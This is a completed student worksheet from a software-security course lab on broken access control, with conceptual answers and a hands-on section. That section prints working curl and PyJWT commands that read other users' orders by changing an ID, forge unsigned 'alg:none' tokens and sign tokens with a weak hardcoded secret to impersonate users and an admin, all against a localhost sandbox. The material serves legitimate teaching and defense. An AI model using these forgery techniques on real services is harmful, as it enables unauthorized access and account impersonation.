







# Worksheet 6 — Authentication, Sessions & Access Control (3 hrs)

> **Course:** Software Security (KOSEN69) · **Week 6**
> **Aligned:** OWASP 2025 **A01 Broken Access Control**, **A07 Authentication Failures** · **CWE-639** (IDOR), **CWE-347** (improper signature verification), **CWE-321** (weak hardcoded key)
> **Signature games:** 🗺️ **IDOR Treasure Hunt** — walk the `oid` numbers to loot orders that aren't yours · 🔏 **JWT Forgery** — mint a token you were never given.

> ⚠️ **Ethics note:** Forging tokens and accessing other users' objects is only legal in this sandbox (`vulnerable_app.py`) and your own Juice Shop. Doing it to a real service is unauthorized access. Keep all activity inside `http://localhost:8080`.

## Part 1 — Student Information

| Name | Student ID | Date | Group |
|------|-----------|------|-------|
|Siravit Thakaew|6631503041|27/09/2569|       |


## Part 2 — Lecture Questions

Answer in 2–4 sentences each.

1. Distinguish **authentication** from **authorization**. In `vulnerable_app.py`, `get_order` calls `current_user()` but ignores its result (L63) — which of the two is missing?

Authentication is the process of verifying who a user is (e.g., checking a username and password), whereas authorization determines what that authenticated user is allowed to do (e.g., accessing a specific file). In the vulnerable get_order function, calling current_user() confirms the user is logged in (authentication), but ignoring the returned user object means the app fails to check if that user actually owns the requested order. Therefore, authorization is the critical control that is missing.

2. What is **IDOR** (CWE-639)? Why is `/api/orders/<oid>` exploitable, and what single check in `solution_app.py` (L64) closes it?

Insecure Direct Object Reference (IDOR) occurs when an application exposes a reference to an internal object (like a database ID) but fails to verify if the requesting user is authorized to access it. The /api/orders/<oid> endpoint is exploitable because an attacker can simply modify the <oid> parameter in the URL to view other users' private orders. The single check in solution_app.py closes this by validating ownership before returning data, ensuring the order's owner_id explicitly matches the current_user.id.

3. Explain the **`alg:none`** JWT attack. Why does listing `"none"` in `algorithms=[...]` (L55) let an attacker submit an *unsigned* token?

The alg:none attack occurs when an attacker modifies a JWT header to set the algorithm to "none" and removes the signature, attempting to bypass cryptographic validation entirely. If the backend decoding function explicitly lists "none" in its accepted algorithms=[...] array, the JWT library will treat the unsigned, forged token as perfectly valid. This allows attackers to freely manipulate the token's payload to impersonate any user or escalate privileges without ever needing the server's secret key.

4. Why is the hardcoded HMAC secret `"secret"` (CWE-321) dangerous even if `alg:none` were disabled? How does a strong random secret + pinned algorithm defend the token?

A hardcoded HMAC secret like "secret" is highly dangerous because if the source code, version history, or binary is ever exposed, the root of trust is compromised. Once an attacker possesses this secret, they can generate perfectly valid cryptographic signatures to forge JWTs and impersonate any user on the system. Using a strong, randomly generated secret injected via environment variables, combined with explicitly pinning the accepted algorithm (e.g., algorithms=["HS256"]), ensures attackers cannot forge signatures or trick the server into using weaker validation methods.

5. What do the JWT claims **`exp`** and **`aud`** add, and why does the secure version reject tokens that lack them?

The exp (Expiration Time) claim strictly limits the lifespan of a token, drastically reducing the window of opportunity an attacker has if a token is stolen or leaked. The aud (Audience) claim restricts the token's validity to a specific service or domain, preventing a token generated for one application from being successfully replayed against another. The secure version explicitly rejects tokens missing these claims to enforce strict boundaries, guaranteeing that active sessions eventually expire and cannot be misused across different contexts.


## Part 3 — Hands-on Lab (150 min)

**Learning goals:** exploit IDOR, forge JWTs two ways (`alg:none` and weak secret), then prove `solution_app.py` enforces ownership and rejects forged tokens. Steps mirror `attack.md`.

**Prerequisites:** Docker + Docker Compose, `curl`, `python3` with `pyjwt`, optionally Burp Suite. Working dir: `labs/week06-authn-authz/`.

### Environment setup

```bash
cd labs/week06-authn-authz
docker compose up            # python:3.12-slim + flask + pyjwt, runs vulnerable_app.py
# vulnerable app -> http://localhost:8080   (service name: authz-lab, port 8080)
```
Optional secondary target / proxy:
```bash
docker run --rm -p 3000:3000 bkimminich/juice-shop       # -> http://localhost:3000
# Burp Suite: put the proxy listener AND the browser proxy on 127.0.0.1:8081.
# NOT 8080 — the lab app already owns host 8080 (docker-compose.yml, "8080:5000").
# Burp's own default listener is 8080, so you must change it: leave it there and
# either the listener refuses to start ("Address already in use") or, if it does
# bind, the browser's proxy address is the target's address and every request
# goes straight to the app instead of through Burp — you intercept nothing.
```

**What to submit per task:** the exact **command/token**, a **screenshot** of the JSON response, and a **2–3 sentence mitigation**.

---

**Task 0 — Onboarding (5 min).** Get alice's token (from `attack.md`):
```bash
TOKEN=$(curl -s -X POST http://localhost:8080/login \
  -H 'Content-Type: application/json' \
  -d '{"user":"alice","pw":"alicepw"}' | python3 -c 'import sys,json;print(json.load(sys.stdin)["token"])')
echo "$TOKEN"
```
Confirm `/api/orders/1` returns alice's Laptop order. *Deliverable: screenshot of the token + order 1.*



**Task 1 — IDOR Treasure Hunt (30 min) 🗺️.**
- *Goal:* read **bob's** order with **alice's** token.
- *Steps:*
  ```bash
  curl -s http://localhost:8080/api/orders/1 -H "Authorization: Bearer $TOKEN"   # yours
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $TOKEN"   # bob's — leaks!
  ```
- *Deliverable:* both responses + screenshot of bob's `Phone` order + why the missing ownership check (CWE-639) is the root cause.



The root cause is missing object-level authorization. The server authenticates Alice but does not compare the requested order owner with the authenticated user. The fixed version denies access unless order["owner"] == user, returning 403 forbidden for Alice’s request to order 2.

```sim
jwt-forge
```

**Task 2 — JWT Forgery via alg:none (30 min) 🔏.**
- *Goal:* impersonate bob with an **unsigned** token (no secret needed).
- *Steps:*
  ```bash
  FORGED=$(python3 - <<'PY'
  import jwt
  print(jwt.encode({"sub": "bob"}, key="", algorithm="none"))
  PY
  )
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $FORGED"
  ```
- *Deliverable:* the forged token + screenshot of the accepted response + explanation of the `none` flaw (CWE-347).
This token lacks a genuine signature because it uses the `none` algorithm; however, `vulnerable_app.py` accepts such tokens in `current_user()`. Consequently, it trusts the `sub=bob` claim—which an attacker can freely modify—allowing unauthorized access to Bob's orders.



This constitutes vulnerability CWE-347: Improper Verification of Cryptographic Signature. The fix involves pinning the algorithm to HS256, verifying the signature, and enforcing claims such as `exp` and `aud`.

**Task 3 — JWT Forgery via weak secret (30 min) 🔏.**
- *Goal:* sign a *valid* HS256 token because the secret is the guessable string `secret` (CWE-321).
- *Steps:*
  ```bash
  FORGED2=$(python3 - <<'PY'
  import jwt
  print(jwt.encode({"sub": "bob"}, "secret", algorithm="HS256"))
  PY
  )
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $FORGED2"
  ```
- *Note:* recent PyJWT prints an `InsecureKeyLengthWarning` to **stderr** because `"secret"` is only 6 bytes — that is expected, the token still mints and is accepted.
- *Deliverable:* token + screenshot + 2–3 sentences on why secret strength + key management matter.


Although this token uses HS256 and is signed, the server's secret is simply the word "secret"—which is easily guessable and exposed in the source code. Consequently, an attacker can generate a valid signature and spoof the `sub` claim as "Bob." This constitutes vulnerability CWE-321: Use of Hard-coded Cryptographic Key. A long, randomly generated secret stored in an environment variable or a secret manager should be used instead, while pinning the algorithm to HS256. If an `InsecureKeyLengthWarning` appears, treat it as a standard warning regarding the short secret rather than a command failure.

**Task 4 — Privilege escalation to admin via a forged token (25 min) 🔏.**
- *Goal:* read the admin-only flag at `/api/admin` — a page **IDOR cannot reach**: there is no object id to walk, and there is no `admin` account you could log in as (`USERS` has only alice and bob). The only way in is to forge your identity.
- *Steps:* forge a token claiming `sub=admin` (either technique from Task 2/3 works — `alg:none` or the weak `"secret"`), then call `/api/admin`:
  ```bash
  FORGED=$(python3 - <<'PY'
  import jwt
  print(jwt.encode({"sub": "admin"}, key="", algorithm="none"))
  PY
  )
  curl -s http://localhost:8080/api/admin -H "Authorization: Bearer $FORGED"
  ```
  You should get `FLAG{...}`. Then confirm alice's **real** token gets `403 forbidden` on the same endpoint — proof the server's role check (`if user != "admin"`) is fine; the break is purely that authentication accepted a forged identity.
- *Deliverable:* the forged token + screenshot of the flag + the `403` for alice's real token, and 2–3 sentences: why IDOR can't reach this (horizontal access vs. **vertical** privilege escalation), and why the app's own `if user != "admin"` check didn't save it.


This is a case of vertical privilege escalation, as the attacker impersonates an administrator—a higher privilege level—rather than an IDOR, since the `/api/admin` endpoint does not involve an object ID that can be manipulated. While the `if user != "admin"` check functions correctly, the authentication mechanism accepts a forged token and returns `sub=admin`, misleading the application. Therefore, the `current_user()` implementation must be secured by pinning the algorithm to HS256, verifying the signature, using a strong secret, and enforcing `exp` (expiration) and `aud` (audience) claims.

**Task 5 — Defend / fix it (30 min) 🛡️.**
- *Goal:* prove `solution_app.py` blocks Tasks 1–4.
- *Steps:* stop the vulnerable container (`Ctrl-C`), then:
  ```bash
  docker compose run --rm --service-ports authz-lab bash -c "pip install --no-cache-dir flask pyjwt && python solution_app.py"
  ```
  Re-run: get a fresh alice token, then re-fire each attack. Expected: `/api/orders/2` with alice's token → **403 forbidden** (ownership check, L64); the `alg:none` token → **401 invalid token** (algorithm pinned to HS256, L50); the `"secret"` token → **401** (strong random secret + required `aud`/`exp`, L10/40). For Task 4, `/api/admin` with a forged `sub=admin` token → **401** — the *same* `current_user()` fix (L50) rejects the forgery before the role check runs, so one fix closes every endpoint; alice's real token still gets **403** there (she isn't admin).
- *Deliverable:* screenshots of the 403 and the 401s (orders **and** `/api/admin`) + name the fix line for each.





## Part 4 — Reflection

1. **CWE/OWASP mapping:** map IDOR → **CWE-639 / A01**, the JWT forgeries → **CWE-347 & CWE-321 / A07**.

IDOR (Insecure Direct Object Reference): Maps to CWE-639 (Authorization Bypass Through User-Controlled Key) and falls under OWASP 2025 A01: Broken Access Control.

JWT Forgeries: The alg:none bypass maps to CWE-347 (Improper Verification of Cryptographic Signature), and the hardcoded secret maps to CWE-321 (Use of Hard-coded Cryptographic Key). Both are categorized under OWASP 2025 A07: Identification and Authentication Failures (with strong overlap in A04: Cryptographic Failures).

2. **Real breach:** the **2022 Optus breach** exposed millions of customer records via an exposed/poorly-authorized API endpoint where identifiers could be enumerated — a textbook broken-access-control / IDOR-style failure. In 3–4 sentences connect it to Tasks 1 and 4 of this lab. *(Alternative: the Peloton API IDOR disclosure.)*

The 2022 Optus breach exposed the personal data of nearly 10 million Australians because an internet-facing API endpoint lacked proper authorization controls. Attackers were able to sequentially enumerate customer identifiers to scrape sensitive data, functioning as a massive-scale Insecure Direct Object Reference (IDOR) or Broken Object Level Authorization (BOLA) exploit. This directly mirrors the vulnerabilities explored in Tasks 1 and 4 of this lab, demonstrating that failing to enforce strict, per-request server-side validation of who is accessing what inevitably leads to catastrophic, automated data exfiltration.

3. **Best mitigation:** between deny-by-default ownership checks, pinning the JWT algorithm, and a strong managed secret, which control protects the most attack surface here, and why is server-side authorization non-negotiable?

Implementing deny-by-default ownership checks protects the largest attack surface.

While strong secrets and pinned algorithms securely authenticate the user's identity, authentication alone does not restrict what an authenticated user can do. Deny-by-default authorization acts as the ultimate gatekeeper: even if a token is stolen, a session is hijacked, or an authentication flaw is discovered, the attacker is strictly confined to their own resources. Server-side authorization is non-negotiable because any client-side restrictions or hidden UI elements can be easily bypassed by an attacker sending direct API requests; the server must independently verify data ownership on every single transaction to prevent IDOR.

## Grading rubric (100)

| Criterion | Points |
|-----------|-------:|
| Part 2 — Lecture questions (conceptual accuracy) | 20 |
| Part 3 — Exploitation + evidence (payloads/tokens + screenshots, Tasks 1–4) | 40 |
| Part 3 — Defense (Task 5: fixes proven, lines cited) | 25 |
| Part 4 — Reflection (CWE/OWASP mapping, breach, mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required)

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the
  same image as the evidence**. When the evidence is a browser page, a DevTools panel or a
  rendered response, put that terminal **beside the browser and capture the whole screen** — a
  cropped window carries nothing that identifies you, and the lab's own output is
  byte-identical for the whole cohort *by design*, so the stamp is the only thing that makes
  the shot yours. Generic or borrowed evidence is not accepted.
- **Personalized flag (if this lab issues one):** ____________________
  *Flags are unique per student — submitting another student's flag is a violation. How to submit: **learn.zcr.ai/submit** (full guide: `SUBMISSION.md` in the repo root).*
- **Explain in your own words** *(graded on your reasoning, not copied text):*
  1. What did you do, and **why did the vulnerability work**?
  2. **Why does your fix actually stop it** — and what could still break it?

---

## 🤖 Audit the AI (required)

AI is a power tool you must **distrust** — you are graded on your *critique*, not the AI's answer.

1. Ask an AI assistant to exploit **or** fix this week's vulnerability. Paste its full answer.
2. **Find what's wrong or risky** in it — insecure code, a subtly incomplete fix, a hallucinated API/function/CVE, a missed edge case, or wrong reasoning. Quote the exact line(s).
3. Produce the **correct, verified** version yourself and explain in 2–3 sentences why the AI's output was insufficient.

> Disclose your AI use in the Part 1 table. This task counts toward your **Defense + Reflection** score.

---

## 🧠 Comprehension & Prompt (required)

**A. Explain in Plain English (EiPE).** In 2–3 sentences, in your own words, describe what this week's vulnerable code/endpoint actually *does* and *why it is exploitable* — explain the mechanism, don't dump jargon.

**B. Prompt Problem.** Write a **single prompt** that makes an AI produce a *correct, secure* fix for one finding. Run it: does the exploit now fail? If not, refine the prompt and try again. Submit the **final prompt + the verified result**.
*Graded on the prompt's precision and your verification — this trains problem decomposition and AI literacy (Denny et al. 2024).*
